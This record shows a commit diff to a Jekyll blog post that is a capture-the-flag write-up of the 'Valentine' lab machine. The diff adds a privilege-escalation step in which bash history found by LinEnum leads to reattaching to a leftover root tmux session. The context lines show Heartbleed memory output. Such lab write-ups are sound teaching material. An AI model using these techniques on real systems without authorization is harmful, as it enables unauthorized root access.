

Before and after one commit to Liodeus/liodeus.github.io, a Jekyll site: the page built from _posts/2020-07-26-valentine.md, in a window 1280 px wide and 900 px high, scrolled down 7804 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Add files via upload

````diff
--- a/_posts/2020-07-26-valentine.md
+++ b/_posts/2020-07-26-valentine.md
@@ -227,7 +227,7 @@ Received heartbeat response:
   0150: 6D 56 30 61 47 56 6F 65 58 42 6C 43 67 3D 3D 29  mV0aGVoeXBlCg==)
 ```
 
-It seems to work, I can see a variable named text which looks like base64 :
+It seems to work, I can see a variable, named text which looks like base64 :
 
 ```
 $text=aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg==
@@ -308,7 +308,41 @@ Launch the script :
 bash LinEnum.sh | tee results.txt
 ```
 
+Reading throught the results, there is one thing that stands out :
 
+```
+[-] Location and contents (if accessible) of .bash_history file(s):
+/home/hype/.bash_history
+
+exit
+exot
+exit
+ls -la
+cd /
+ls -la
+cd .devs
+ls -la
+tmux -L dev_sess
+tmux a -t dev_sess
+tmux --help
+tmux -S /.devs/dev_sess
+exit
+```
+
+There might be a tmux session as dev still open ! Let's try to reconnect to it :
+
+```
+tmux -S /.devs/dev_sess
+```
+
+And there I have a shell as root :
+
+```
+root@Valentine:/home/hype# whoami
+root
+```
+
+Now I can read the flags !
 
 ## Flags
 
````
Also changed, not shown: other parts of _posts/2020-07-26-valentine.md (+1 -1 lines).
